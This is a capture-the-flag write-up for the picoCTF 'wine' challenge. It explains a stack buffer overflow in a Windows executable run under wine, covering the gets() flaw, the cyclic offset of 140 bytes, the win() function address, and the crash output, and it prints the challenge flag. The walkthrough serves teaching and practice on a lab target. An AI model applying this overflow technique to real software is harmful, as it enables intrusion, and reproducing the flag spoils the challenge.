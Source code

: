 # wine

Author: David

## Description

Challenge best paired with wine.
I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using [host, port]

## Solution

"Wine" in the challenge title and description refers to the `wine` application that can be installed on Linux. This allows EXE files to run on Linux systems, even though those files were meant for Windows.
Run the program with `wine`.
```
$ wine vuln.exe 
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Create a project in Ghidra and examine the `main()` function. Eventually, `main()` calls `vuln()`, and the code for that function looks like this:
```
void _vuln(void)

{
  char local_8c [136];
  
  _puts("Give me a string!");
  _gets(local_8c);
  return;
}
```
This allocates 136 characters for a variable called `local_8c`, which the program receives from us through the (very insecure) `gets()` function. This is the basis of the exploit. 
A simple buffer overflow challenges like this one requires only a few pieces of information:
    1. How many padding characters do we need to full the buffer?
    2. Where to we need to jump, or what to we need to overwrite?
    3. How is the exploit put together?

### Determining the number of characters...
This can be done with `cyclic`. (From `pwntools`; can be accessed directly from the command line.)
Create a cyclic string of 200 characters with `cyclic 200`, and then pipe that string into the program as input. When the program crashes, close wine's GUI debugger, and view the error information in the terminal. Here's the beginning of that output:
```
$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab" | wine ./vuln.exe 
Give me a string!
wine: Unhandled page fault on read access to 6261616B at address 6261616B (thread 0009), starting debugger...
Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:6261616b ESP:0064fe20 EBP:6261616a EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fd90 EBX:00230f14 ECX:0064fd80 EDX:7fa358b8
 ESI:00000040 EDI:00111874
Stack dump:
0x0064fe20:  6261616c 6261616d 6261616e 6261616f
0x0064fe30:  62616170 62616171 62616172 62616173
0x0064fe40:  62616174 62616175 62616176 62616177
0x0064fe50:  62616178 62616179 00230f00 00111874
0x0064fe60:  0064fe98 00000000 00000000 00000000
0x0064fe70:  00000000 00000000 00000000 00000000
```

Notice - "read access at "6261616B..." - those represent characters from our cyclic string, represented in hex. Luckily, `cyclic -l 0x6261616B` will tell us that this represents 140 characters. But what do we write?

### Writing to the win function
In CTF binary exploitation challenges, the goal of the exploit might be to redirect the program to the a "win" or "printflag" function. In this case it's a `win()` function.
`objdump -d vuln.exe` shows us the dissassembler output so we can find the address of the function. Below, I've edited the command for brevity in the output:
```
$ objdump -d vuln.exe | grep _win
00401530 <_win>:
  401551:	75 18                	jne    40156b <_win+0x3b>
  ```

0x0401530 is the address we need to write in order to move to the `win()` function.

### Notes on building the exploit 
* The address we include in our exploit needs to be packed in a specific way for the program to interpret it correctly. There are issues in doing this easily in Python3, so the script below works in Python2, and all imports are built-in.
* Wine apparently takes quite a while to load over the server. I've noticed it's anywhere from 1 to 15 seconds, so I've set the program to wait 15 seconds before trying to send or receive anything.
* Once sent, the our script will collect the flag and print it to our screen, and the connection between our machine and the server will be closed.

[wine_exploit.py] (scripts/wine_exploit.py)


**Flag: picoCTF{Un_v3rr3_d3_v1n_1b40efad}**
